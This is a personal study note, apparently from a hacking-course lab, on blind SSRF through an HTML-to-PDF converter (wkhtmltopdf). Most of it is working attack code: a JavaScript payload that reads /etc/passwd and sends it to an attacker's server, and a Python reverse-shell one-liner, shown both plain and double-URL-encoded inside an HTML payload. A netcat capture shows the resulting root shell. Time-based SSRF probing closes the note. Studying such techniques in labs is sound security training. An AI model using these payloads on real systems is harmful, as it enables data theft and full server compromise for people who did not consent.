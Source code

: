 ```yaml
---
id: 2_SSRF
created_date: 05/01/2023
updated_date: 05/01/2023
type: note
---
```


#  2_SSRF BLIND EXAMPLE
- **🏷️Tags** :  #01-2023 #bash #SSRF #web #javascript #blind

## 📝 Notes

on this example we have a Website where you can upload an html file and it convert it on a PDF format.

We can relate with BurpSuite with each request we are making we are getting the same response.  This is not meaning that the web site is not vulnerable to SSRF. 

we can try to upload an html file that look like this
```html
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```

we are receiving a response on the netcat listener, By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

**Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.**

Great, we can execute JavaScript in wkhtmltopdf! Let us leverage this functionality to read a local file by creating the following HTML document.

Code: html

```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

The `onload` event is triggered when the `readfile` request is successful and the response is received from the server. The event handler function is defined as an anonymous function that is assigned to the `onload` property of the `readfile` object.

The function begins by checking the `readyState` property of the `readfile` object. If the `readyState` is equal to 4, it means that the request has completed and the response is ready to be processed.

Inside the `if` statement, the function constructs a new URL using the `SERVICE IP` and `PORT` placeholders, which should be replaced with the IP address and port of the remote server. The `btoa` function is used to encode the contents of the local file (which are stored in the `response` property of the `readfile` object) as ASCII text. The encoded text is appended to the URL as a query parameter named `data`.

Finally, the function uses the `exfil` `XMLHttpRequest` object to send an HTTP GET request to the constructed URL. This causes the contents of the local file to be sent to the remote server as a query parameter in the request.

Overall, this code is responsible for sending the contents of the local file to the remote server as part of the SSRF attack. It does this by constructing a URL with the encoded contents of the file as a query parameter, and sending an HTTP GET request to the URL using the `exfil` `XMLHttpRequest` object.

the port 9090 is recommended.

### Bash reverse shell with python 

In the previous section, we exploited an internal application through SSRF and executed remote commands on the target server. The same internal application (`internal.app.local`) exists in the current scenario. Let us compromise the underlying server, but this time by creating an HTML document with a valid payload for exploiting the local application listening on internal.app.local.

We will use the following reverse shell payload (it is pretty easy to identify that Python is installed once you achieve remote code execution).

#### Bash Reverse Shell

```bash
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Remember, we need to URL encode our payload. In this case, we need to encode it twice. The end result will be similar to the below.

#### URL Encoded Payload

Code: html

```html
export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
```

#### HTML Payload
the html payload will look like this : 
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```

Launch a netcat listener and upload the html file
```bash
nc -nvlp 9090

listening on [any] 9090 ...
Connection received on 10.129.201.238 33100

# whoami

whoami
root
```

In the Exercise we are building the html file with the one line payload in python ( be careful to encode it twice ), launch a netcat listener on the port 9090 ( same as the payload one liner) and upload the file on the web site. Magic you now have reverse shell. For completing the exercise juste submit the kernel release number 
```bash
uname -r
``` 


# Time-Based SSRF 

We can also determine the existence of an SSRF vulnerability by observing time differences in responses. This method is also helpful for discovering internal services.

Let us submit the following document to the PDF application of the previous section and observe the response time.

Code: html

```html
<html>
    <body>
        <b>Time-Based Blind SSRF</b>
        <img src="http://blah.nonexistent.com">
    </body>
</html>
```

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time.png)

We can see the service took 10 seconds to respond to the request. If we submit a valid URL inside the HTML document, it will take less time to respond. Remember that `internal.app.local` was a valid internal application (that we could access through SSRF in the previous section).

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time2.png)

In some situations, the application may fail immediately instead of taking more time to respond. For this reason, we need to observe the time differences between requests carefully.
## Questions/Thoughts


## 🔗 Links
- 